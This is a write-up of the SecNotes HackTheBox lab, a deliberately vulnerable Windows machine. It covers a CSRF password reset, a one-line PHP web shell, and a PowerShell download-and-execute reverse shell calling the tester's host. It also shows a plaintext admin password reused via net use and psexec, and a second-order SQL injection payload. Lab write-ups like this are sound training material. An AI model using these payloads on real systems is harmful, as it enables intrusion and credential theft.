# Summary

SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP scripto get RCE. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

<details open>
<summary></summary>
  
* [External Enumeration](#external-enumeration)
* [Cross Site Request Forgery](#xsrf)
* [Initial Access](#initial-access)
* [Privilege Escalation](#privilege-escalation)
* [Second Order SQLI](#second-order-sqli)

</details>

## External Enumeration

I'll first run a port scan against the box using my alias `fscan`

<img src="images/fscan.png">

We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup

<img src="images/secnoteslogin.png">

I'll signup with the credentials `max:password`

<img src="images/signup.png">

Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!

<img src="images/home.png">

The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF

<img src="images/contact.png">

First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite

<img src="images/changepwdpost.png">

Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.

<img src="images/changepwdget.png">

We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`

<img src="images/home.png">

Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

## XSRF

<img src="images/tyler.png">

I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.

<img src="images/done.png">

On my listener I get a connection and I can now login with `tyler:password` and access his notes.

<img src="images/pwreset.png">

We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`

<img src="images/new-site.png">

We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.

<img src="images/iis.png">

## Initial Access

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.

<img src="images/rce.png">

From here I'll write a powershell reverse shell in `shell.ps1` to call back to port 9001 on my box and host it on a python webserver. I'll start a netcat listener on port 9001, then I'll visit the URL 

`http://10.10.10.97:8808/shell.php?cmd=powershell iex(iwr -uri http://10.10.14.31/shell.ps1 -usebasicparsing)`

I get a request to my webserver

<img src="images/webserve.png">

followed by a connection on my listener

<img src="images/hit.png">

## Privilege Escalation

Checking out `c:\users\tyler\desktop` we find `user.txt` but also an interesting file named `bash.lnk`. Reading the file we can pick out `bash.exe` in `c:\Windows\System32`. This usually indicates Windows Subsystem for Linux is installed. 

<img src="images/bashlnk.png">

I'll play around with `bash` and see what I can find in the Linux filesystem.

<img src="images/root.png">

We're root inside the Linux filesystem and find a `.bash_history` inside `/root`. Reading this file we find some admin credentials used over smb.

<img src="images/bashhist.png">

With these credentials I could mount `c$` on localhost as admin with `net use \\127.0.0.1\c$ /user:administrator u6!4ZwgwOM#^OBf#Nwnh` or I could use powershell's `Enter-PSSession` or I could use the credentials with impacket's `psexec` to get a shell. I'll /opt for psexec.

<img src="images/system32.png">

I get a shell returned as `NT AUTHORITY\SYSTEM`. From here I can read `root.txt` in `c:\users\administrator\desktop`

## Second Order SQLI

An SQLI occurs when user input is used directly in an SQL query in an unsafe way. A second order SQLI is when user input is stored in a database then retrieved and used as part of a later query in an unsafe way. Here, the register function uses prepared statements to separate user input from the query itself, as seen below. 

<img src="images/registersqli.png">

However when the notes are retrieved to be displayed on the home page, the username is directly concatenated into a SQL query. Therefore we can register a username which does our bidding when called in the query in `home.php`.

<img src="images/getnotes.png">

We can see that if we register the username `' or 1='1`, the above query becomes

```SELECT id, title, note, created_at FROM posts WHERE username='' or 1='1'```

Since mysql interprets `1='1'` as true, `'' or 1='1'` also evaluates to true, so we retrieve the notes for every user.

<img src="images/allnotes.png">


